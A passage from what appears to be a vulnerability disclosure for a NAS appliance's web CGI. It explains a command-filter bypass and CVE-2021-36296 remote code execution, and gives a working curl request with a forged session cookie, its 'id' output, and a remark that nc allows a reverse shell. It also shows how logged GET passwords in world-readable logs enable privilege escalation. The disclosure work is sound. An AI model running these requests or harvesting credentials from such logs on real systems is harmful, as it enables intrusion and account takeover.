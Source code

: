 There are two checks:

* the command cannot contain any of the ```\`;|&(<>``` characters
    * this means no process substitution (can't do backticks nor ```$()```
    * no additional commands (no newline, `&&`, `||`, ';')
* the string "$NAS_DB/bin/"$(basename $command) must exist on disk


It's possible to bypass both checks by passing ```. script```, where the ```.``` will build a valid path and will afterwards be recognized as ```source```. This is probably exploitable by first uploading an arbitrary script using the ```DownloadFile``` CGI first (untested).


CVE-2021-36296: Remote code execution as unprivileged user by injecting variables
-----------------------------------------------------------------
(Credits to Raphael Geissert).

This one executes an arbitrary command by directly injecting variables.

For instance, it's possible to overwrite the ```NAS_DB``` path to any existing path thus calling any existing command:
```
$ curl -k -s 'https://xxx/cgi-bin/runclicmd?NAS_DB=/usr/&command_line=id' --cookie='Ticket=time&../logs/access_log&ip&xx.xx.xx.xx&last&../logs/access_log&idle&&hash&xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx&user&nasadmin&useraccess&&type&User&persists&&expires&99999999999999999999999'
uid=201(nasadmin) gid=201(nasadmin) groups=201(nasadmin),504(fullnas)
```

Since there's ```nc``` installed on the appliance, a reverse shell from here is trivially reached.

Note that one may also inject the variable ```$width``` used in command ```| fold -s -$witdh``` to perform an arbitrary file read.



Local Privilege Escalations
---------------------------
### Password in GET request, logged to disk
The authentication perl module ```/nas/http/scripts/Apache/TicketLogin.pm``` is built using a GET request and thus saves the users' names and passwords when logging to disk:

```
[root@xxx]# grep -r password= /nas/http/logs/*_log
/nas/http/logs/access_log:10.140.234.132 - - [22/Sep/2020:07:39:07 +0200] "GET /Login?user=nasadmin&password=xxx&Login=Login HTTP/1.1" 200 469 "-" "Apache-HttpClient/4.3 (java 1.5)"
```

Furthermore, these log files are world-readable, allowing any user to elevate their privileges to the user authenticating (nasadmin in our case):
```
[root@xxx]# ll /nas/http/logs/*_log
-rw-r--r-- 1 root root  114508 Sep 22 11:32 /nas/http/logs/access_log
-rw-r--r-- 1 root root   47045 Sep 22 11:30 /nas/http/logs/error_log
-rw-r--r-- 1 root root       0 Dec 15  2016 /nas/http/logs/rewrite_log
lrwxrwxrwx 1 root root      25 Sep 24  2018 /nas/http/logs/ssl_engine_log -> /nas/http/logs/access_log
-rw-r--r-- 1 root root 1746252 Sep 22 11:32 /nas/http/logs/ssl_error_log
-rw-r--r-- 1 root root   95496 Sep 22 11:32 /nas/http/logs/ssl_request_log
```
